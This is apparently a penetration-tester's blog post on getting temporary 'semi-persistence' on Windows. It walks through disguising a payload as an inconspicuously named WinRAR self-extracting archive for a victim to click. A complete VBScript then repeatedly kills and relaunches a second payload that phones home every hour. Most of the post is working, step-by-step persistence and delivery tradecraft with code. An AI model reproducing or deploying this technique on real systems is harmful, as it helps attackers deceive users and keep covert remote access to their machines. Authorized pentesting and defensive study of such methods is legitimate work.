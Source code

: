 ```yaml
---
layout: post
title: Semi-Persistence
summary: How to get some semi-persistence using VBScript
tags:
- payloads
---
```

     

Persistence is a great thing to have on a pentest, especially if testing from the outside. Persistence also seems to be a word that makes clients' hairs on the back of their necks stand up. Backdoors are a scary thing if you're in charge of keeping a network secure.

When it comes to installing persistence, there are quite a few options available such as Metasploit's persistence module or `scheduleme.rb`. These modules leave a permanent, like one would think, payload and schedule for phoning home to the tester's box. But what about when this is out of scope? 

Here's a method to keep a payload phoning home but leaves no permanent effects. 

Using WinRAR, we can pack our payload with a vbscript that sleeps for 60 minutes and then restarts the payload. 
With WinRAR installed, right click your favorite payload and select WinRar > Add to archive…
The window below will pop up. Select Create SFX archive and keep the Archive format set to RAR. You should also give your payload wrapper an inconspicuous name.

![]({{site.url}}/assets/semipersistence1.png){:height="400px"}


Now duplicate the payload that you just right-clicked and call it something different, it's renamed to `persistence_payload.exe` here. This will be the secondary payload that is run every 60-ish minutes. Why not just use the one payload? Just in case you can't migrate of off the original process, a second one is used for the persistence for safety.


Now create a text file named `persistence_script.vbs` and paste the following within it:

```vb
function launchit()
  WScript.sleep 90000
  set shell = createobject("wscript.shell")
     shell.run "persistence_payload.exe"
  WScript.sleep 90000
  killit()
end function

function killit()
  set objWMIService = GetObject ("winmgmts:")
  foundProc = False
  procName = "persistence_payload.exe"

  for each Process in objWMIService.InstancesOf ("Win32_Process")
        If StrComp(Process.Name,procName,vbTextCompare) = 0 then
            foundProc = True
            procID = Process.ProcessId
        End If
  Next
  If foundProc = True Then
        Set colProcessList = objWMIService.ExecQuery("Select * from Win32_Process where ProcessId =" &  procID)
        For Each objProcess in colProcessList   
            objProcess.Terminate()
        Next
        WScript.Sleep(1000) 'wait for a second
        Set colProcessList = objWMIService.ExecQuery("Select * from Win32_Process where ProcessId =" &  procID)
        If colProcessList.count = 0 Then
            WScript.Sleep(3600000)
            launchit()
        End If
  End If
end function

launchit()
```

Change the `persistence_payload.exe` line to match your persistent payload's name. After saving this, right click the payload wrapper and select WinRAR > Open with WinRAR. Then drag the persistent payload and `persistence_script.vbs` into WinRAR. You should end up with this:


![]({{site.url}}/assets/semipersistence2.png){:width="90%"}


Almost there, but we need this executable to do something when the victim clicks on it. Click the SFX button in the ribbon. Then under the SFX tab, select Advanced SFX Options. 
Now we have a number of options we can set, such as having this executable extract to a specified folder (`C:/Temp` maybe?), set the Overwrite mode to Overwrite all files (Update tab), and tell WinRAR what to run upon extraction.
After setting the first two options, open the Setup tab and in the Run after extraction box, enter the name of your normal payload (`payload.exe` here) and the VBScript (`persistence_script.vbs`). 

![]({{site.url}}/assets/semipersistence3.png){: width="325px"}


Now when the payload is run, it will run as expected (by calling `payload.exe`) and in Task Manager, a `wscript.exe` process will run waiting to re-rerun `persistence_payload.exe` every 60-ish minutes. Before re-running the payload, it will kill the process if it's still running so if you can't migrate you will lose that session -- best to keep it as a backup in those instances. 

Restarts and logoffs will kill `wscript.exe` resulting in the persistence being lost-- no worries about a permanent backdoor. This method can also be used to launch the initial payload multiple times when first run, if you experience flakiness issues with payloads.

